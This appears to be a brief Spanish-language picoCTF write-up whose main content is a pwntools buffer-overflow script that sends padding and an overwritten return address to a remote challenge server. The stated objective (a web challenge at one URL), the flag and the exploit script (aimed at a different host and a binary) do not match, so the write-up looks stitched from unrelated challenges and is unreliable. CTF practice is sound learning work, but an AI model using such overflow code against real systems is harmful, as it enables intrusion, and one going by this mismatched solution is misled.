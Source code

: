 ## Objetivos
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:34561/](http://mercury.picoctf.net:34561/)
## Solucion
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
crearemos un programa de python el cual realizara todas las operaciones que hariamosnosotros manualmente 
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 61481)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
a += "\xf6\x91\x04\x08"
io.sendline(a)

io.interactive()


## Referencias
[ayuda](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1)
